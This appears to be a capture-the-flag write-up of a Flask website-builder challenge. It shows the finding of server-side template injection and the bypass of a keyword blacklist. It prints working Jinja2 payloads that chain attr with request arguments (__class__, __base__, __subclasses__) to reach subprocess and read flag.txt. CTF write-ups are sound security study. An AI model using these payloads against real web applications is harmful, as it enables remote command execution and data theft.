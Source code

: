## Build a website 

***I made a website where y'all can create your own websites! Should be considerably secure even though I'm a bit rusty with Flask.***

![](https://i.ibb.co/Q6GnQPr/build-a-website.png?size=150)

On the form we can enter some html which will be converted to webpage. My first thought was to inject some SSTI and I saw that {{ 7*7 }} results in 49 so the framework will be flask.
after some tries I recognized that on back-end there must be some blacklist on "globals, class" words which some confusing message (there is no stack smashing, it seems to be written by hand!!) 

```*** stack smashing detected ***: python3 terminated```


OK, my solution is: Send blacklist words as a GET params and prepare a statement ommiting blacklist
To avoid converting to strings we need to use ```attr``` function

```to list all classes:
{{
''|attr(request.args.p1)|attr(request.args.p2)|attr(request.args.p3)()
}}```

to send os commands:
```{{
(''|attr(request.args.p1)|attr(request.args.p2)|attr(request.args.p3)())[360]('cat flag.txt',shell=True,stdout=-1).communicate()
}}```
with params:
```&p1=__class__&p2=__base__&p3=__subclasses__```

